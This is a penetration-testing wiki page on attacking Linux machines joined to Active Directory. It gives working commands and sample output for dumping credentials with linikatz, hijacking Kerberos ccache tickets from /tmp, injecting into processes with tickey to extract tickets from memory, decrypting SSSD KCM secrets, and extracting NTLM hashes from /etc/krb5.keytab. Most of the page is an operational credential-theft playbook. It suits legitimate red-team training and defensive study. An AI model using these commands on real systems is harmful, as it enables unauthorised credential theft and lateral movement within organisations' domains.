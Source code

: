 # Linux Active Directory

## Theory

A linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Tools

{% tabs %}
{% tab title="Linkatz" %}
[linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool to attack AD on UNIX. It allow you to dump credentials and kerberos cached tickets.

```bash
linikatz.sh
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from /tmp

{% tabs %}
{% tab title="Reuse tickets" %}
When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

{% hint style="info" %}
You may use the ticket using [Pass The Ticket ](broken-reference)techniques
{% endhint %}
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from keyring

{% tabs %}
{% tab title="Reuse tickets" %}
Processes may **store kerberos tickets inside their memory**, the [tickey](https://github.com/TarlogicSecurity/tickey) tool can be useful to extract those tickets&#x20;

{% hint style="info" %}
ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope = 0`&#x20;
{% endhint %}

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from SSSD KCM (Kerberos Cache Manager)

{% tabs %}
{% tab title="Reuse tickets" %}
SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking [SSSDKCMExtractor](https://github.com/mandiant/SSSDKCMExtractor)  with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
{% endtab %}
{% endtabs %}

### Extract accounts from /etc/krb5.keytab

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

{% tabs %}
{% tab title="Unix-Like" %}
On Linux you can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). We want RC4 HMAC hash to reuse the NLTM hash.

```
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```
{% endtab %}

{% tab title="Windows" %}
Use [klist](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```bash
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory" %}
